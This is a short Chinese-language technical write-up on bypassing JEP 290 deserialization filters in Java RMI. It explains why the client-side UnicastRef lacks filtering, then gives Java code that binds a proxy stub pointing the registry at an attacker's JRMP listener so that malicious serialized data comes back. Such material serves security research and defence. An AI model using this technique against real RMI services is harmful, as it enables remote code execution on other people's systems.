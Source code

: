 # Bypass JEP290 in RMI

首先就是对于普通的远程对象，其`UnicastServerRef`的`filter`默认为null，因此传输恶意对象让其进行反序列化仍可以打。

感觉这个叫bypass很勉强，只是JEP290对反序列化的点没有防御全面，而不是防御逻辑出问题。

其次注意到上面的防护只是针对服务端的引用层，都是在`UnicastServerRef`中调用`unmarshalCustomCallData`将`filter`注册进来，

而对于客户端的引用层`UnicastRef`，并没有发现过滤器的注册，因此`payloads.JRMPClient`/`exploit.JRMPListner`仍可以打

既然对于客户端没有防护，那么能不能让服务端变成客户端呢？

注册中心设置白名单肯定要保证原本功能的正常运行，也就是通过`bind`传递的`Stub`肯定要能被反序列化，才能被注册中心接收。

看一眼白名单，`Remote`、`UnicastRef`、`UID`、`Number`、`String`这些基本的`bind`要传的类是有的

结合前面RMI讲的`UnicastRef`反序列化会触发`DGC`的`dirty`，因此我们构造一个指向我们恶意JRMP服务的远程对象Stub，让注册中心往我们的恶意服务端发送租赁请求，接着返回恶意数据让其反序列化。

```java
public class RMIServer {
    public static void main(String[] args) throws Exception {
        LocateRegistry.createRegistry(1099);
        while (true) {
            Thread.sleep(10000);
        }
    }
}
```

```java
public class RMIClient {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12233);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        Remote proxy = (Remote) Proxy.newProxyInstance(RMIClient.class.getClassLoader(), new Class[]{
                Remote.class
        }, obj);
        registry.bind("x", proxy);
    }
}
```

`TCPEndpoint`指向了`JRMPListener`的主机和端口
